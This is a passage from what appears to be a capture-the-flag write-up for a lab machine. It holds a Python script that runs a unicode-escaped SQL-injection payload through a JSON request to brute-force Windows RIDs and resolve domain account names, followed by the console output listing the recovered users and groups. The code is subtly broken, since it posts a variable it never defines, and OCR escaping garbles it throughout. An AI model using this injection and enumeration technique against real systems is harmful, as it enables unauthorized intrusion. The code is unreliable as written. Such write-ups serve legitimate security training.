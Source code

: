def do\_rid\(\):

 starting\_rid = 1000

 for i in range\(starting\_rid, starting\_rid+3000\):

 sid = get\_sid\(i\)

 data = "a' union select 1,2,3,4,SUSER\_SNAME\(" + sid + "\)-- -"

 converted\_cmd = ''

 for j in data:

 converted\_cmd += "\\u00"+hex\(ord\(j\)\).split\('x'\)\[1\]

 encoded\_data = "{\"name\": \"" + converted\_cmd + "\"}"

headers = {'Content-Type': 'application/json;charset=utf-8'}

 response = requests.post\(RHOST,

 headers=headers,

 data=converted\_data

 \)

 try:

 json\_response = json.loads\(response.text\)

 for resp in json\_response:

 if resp\['src'\] != '':

 print\(f"{i}: {resp\['src'\]}"\)

 except:

 pass

do\_rid\(\)

This gives us the following usernames:

┌─\[rin@parrot\]─\[~/boxes/Multimaster\]

└──╼ $./bruterid.py

1000: MEGACORP\MULTIMASTER$

1101: MEGACORP\DnsAdmins

1102: MEGACORP\DnsUpdateProxy

1103: MEGACORP\svc-nas

1105: MEGACORP\Privileged IT Accounts

1110: MEGACORP\tushikikatomo

1111: MEGACORP\andrew

1112: MEGACORP\lana
